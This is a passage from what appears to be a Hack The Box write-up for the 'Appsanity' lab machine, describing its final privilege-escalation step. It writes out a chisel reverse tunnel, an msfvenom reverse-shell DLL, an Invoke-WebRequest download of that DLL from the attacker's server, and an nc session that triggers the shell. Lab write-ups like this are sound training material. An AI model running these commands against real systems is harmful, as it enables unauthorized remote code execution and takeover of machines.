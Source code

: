 
I created a chisel to tunnel through `port 100`

```
┌──(kali㉿kali)-[~/Downloads]
└─$ chisel server -p 8000 --reverse

*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> .\chisel.exe client 10.10.16.49:8000 R:100:127.0.0.1:100
chisel.exe : 2023/12/27 08:56:09 client: Connecting to ws://10.10.16.49:8000
    + CategoryInfo          : NotSpecified: (2023/12/27 08:5...0.10.16.49:8000:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2023/12/27 08:56:11 client: Connected (Latency 108.9778ms)

```

Once I connected to it. I could backup, upload, recover and validate files.

I created the dll file for the reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/htb/appsanity]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o externalupload.dll     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: externalupload.dll
```

And I also uploaded it to the target machine.

```
$ Invoke-WebRequest -Uri http://10.10.16.10:9999/externalupload.dll -OutFile externalupload.dll
```

And I run this command on the nc helper.

```
┌──(kali㉿kali)-[~/Desktop/htb/appsanity]
└─$ nc 127.0.0.1 100           
Reports Management administrative console. Type "help" to view available commands.
upload externalupload.dll
Attempting to upload to external source.
```

And finally i get the hit.

<figure><img src="../src/Appsanity/admin.png"></figure>

The machine is finally rooted!!

Thank you!! Happy Hacking :D